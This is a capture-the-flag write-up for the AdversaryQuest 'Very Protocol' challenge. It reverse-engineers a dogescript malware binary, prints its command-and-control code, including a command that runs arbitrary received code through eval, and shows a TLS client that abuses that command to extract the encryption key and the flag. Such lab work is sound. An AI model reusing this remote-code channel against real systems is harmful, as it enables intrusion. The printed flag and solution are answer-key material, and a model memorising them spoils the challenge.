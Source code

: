 ```yaml
---
title: "Very Protocol"
date: 2021-02-04T19:50:40-06:00
tags: ["AdversaryQuest", "CTFs"]
---
```


#### Challenge Description:

> We were approached by a CATAPULT SPIDER victim that was compromised and had all their cat pictures encrypted. Employee morale dropped to an all-time low. We believe that we identified a binary file that is related to the incident and is still running in the customer environment, accepting command and control traffic on `veryprotocol.challenges.adversary.zone:41414`

> Can you help the customer recover the encryption key?

#### Write-up:

For this challenge we are given a (46MB!) binary and asked to reverse engineer the command and control protocol to recover the encryption key. Dealing with the size of the binary posed quite a challenge - when opening it in a reverse engineering program (I used Cutter) it caused the import to hang while analyzing. Even looking for strings gives hundreds of thousands of lines:

```
$ strings malware | wc
 422247  846037 16304682
```

So I kinda cheated. If we know the binary is listening on port 41414 for command and control traffic, let's search the malware for the string "41414". The port number could be specified as a binary integer or even be obfuscated of course, but we get lucky and find the code for a listening server in plaintext.  

```
$ grep -a 41414 malware                              
server.listen(41414, () => {
```

Let's take a look around a bit...

```
$ grep -a 41414 malware -A 10 -B 10
              socket.authorized ? 'top doge' : 'not top doge');
  let networker = new Networker(socket, (data) => {
    very doge_lingo is data dose toString
    shh plz console.loge with 'top doge sez:' doge_lingo
    very doge_woof is plz dogeParam with doge_lingo
    networker dose send with doge_woof
    //networker.send(dogeParam(data.toString()));
  });
  networker dose init with 'such doge is yes wow' 'such doge is shibe wow'
});
server.listen(41414, () => {
  plz console.loge with 'doge waiting for command from top doge'
});
server.on('connection', function(c) {
	plz console.loge with 'doge connect'
});
server.on('secureConnect', function(c) {
	plz console.loge with 'doge connect secure'
});
doge_cert = `-----BEGIN CERTIFICATE-----
MIIFITCCAwkCAWUwDQYJKoZIhvcNAQELBQAwTzELMAkGA1UEBhMCVVMxEzARBgNV
```

Looks like javascript... but written by a hekkin good boi

![doge programmer](images/shiba-programmer.jpg)

We were given a bit of a hint from the last challenge - this adversary forked the code for [dogescript](https://github.com/shibefan/dogescript) (very compile to javascript) and [DSON](https://github.com/shibefan/DSON) (much json reskin wow). Looks like they are writing meme malware. Let's grep around to find the beginning and end of the dogescript section and then covert it to javascript

```
$ grep -a "41414" malware -B 195 -A 589 > malware.djs
$ npm install -g dogescript
$ dogescript malware.djs --beautify > malware.js
```

Looking at the [code](malware.js.txt) we can see that it generates the secret key:

```Javascript
var cript_key = Math.random().toString(36).substr(2, 15);

if (process.env.CRYPTZ  === undefined) {
    console.log('no cryptz key. doge can not crypt catz.');
    process.exit(1);
}

var secrit_key = cript(process.env.CRYPTZ, cript_key);
process.env.CRYPTZ ='you dnt git key';
delete process.env.CRYPTZ;
```

The `cript(input, key)` function just xors the key with the environment variable `CRYPTZ`. Then we have a large function called `dogeParam` which takes in network data, parses it for DSON and depending on the DSON input, does something and returns DSON data to send back to the client. The key function I used here was 'do me a favor' which evaluates any dogescript you send to it. 

```Javascript
function dogeParam (buffer) { 
    var doge_command = dson.parse(buffer);
    var doge_response = {};

    if (!('dogesez' in doge_command)) {
        doge_response ['dogesez']='bonk';
        doge_response ['shibe']='doge not sez';
        return dson.stringify(doge_response);
    } 

    if (doge_command.dogesez  === 'ping') {
        doge_response ['dogesez']='pong';
        doge_response ['ohmaze']=doge_command.ohmaze;
    } 

    if (doge_command.dogesez  === 'do me a favor') {
        var favor = undefined;
        var doge = undefined;
        try {
            doge =dogescript(doge_command.ohmaze);
            favor =eval(doge);
            doge_response ['dogesez']='welcome';
            doge_response ['ohmaze']=favor;
        } catch {
            doge_response ['dogesez']='bonk';
            doge_response ['shibe']='doge sez no';
        }
    } 

 ...

    return dson.stringify(doge_response);
}
```

And finally there is some network code which starts a TLS server with certain certs and keys and passes data recieved to `dogeParam`.

```Javascript
const options ={ key: servs_key, cert: servs_cert, requestCert :true, rejectUnauthorized: true, ca: [ doge_ca ] };

const server = tls.createServer(options, (socket) => {
    console.log('doge connected: ', socket.authorized ? 'top doge' : 'not top doge');
    let networker = new Networker(socket, (data) => {
        var doge_lingo = data.toString();
        // plz console.loge with 'top doge sez:' doge_lingo
        var doge_woof = dogeParam(doge_lingo);
        networker.send(doge_woof);
        //networker.send(dogeParam(data.toString()));
    });
    
    networker.init('such doge is yes wow', 'such doge is shibe wow');
});
```

There is also a Networker class which is used on top of TLS and seems to add an extra layer of enryption, using the HMAC and AES  keys `'such doge is yes wow'` and `'such doge is shibe wow'` that it's initialized with. The easiest way to interface with this protocol is copy it and change it around to fit our needs. All we need to do is change the server certificate and key to the doge cert and key. Then connect to the server (instead of listen) and use the same Networker code to send and recieve data.

```Javascript
var conn = tls.connect(41414, "veryprotocol.challenges.adversary.zone", options, () => {
    let networker = new Networker(conn, (data) => {
        var doge_lingo = data.toString();
        console.log(dson.parse(doge_lingo).ohmaze)
    });
    networker.init('such doge is yes wow', 'such doge is shibe wow');
    tos = dson.stringify({dogesez: 'do me a favor', ohmaze:"cript(secrit_key,cript_key)"});
    console.log(tos);
    networker.send(tos);
});
```

We can put whatever `cmd` we want for the malware to run. [Here](doge-send.js.txt) is the full code. The xoring function `cript` is reversable and `secrit_key` and `cript_key` are defined globally so we can just ask the server to decrypt our key! 

```
$ npm install dogescript dogeon
$ node doge-send.js            
such "dogesez" is "do me a favor" next "ohmaze" is "cript(secrit_key,cript_key)" wow
CS{such_Pr0t0_is_n3tw0RkS_w0W}
```
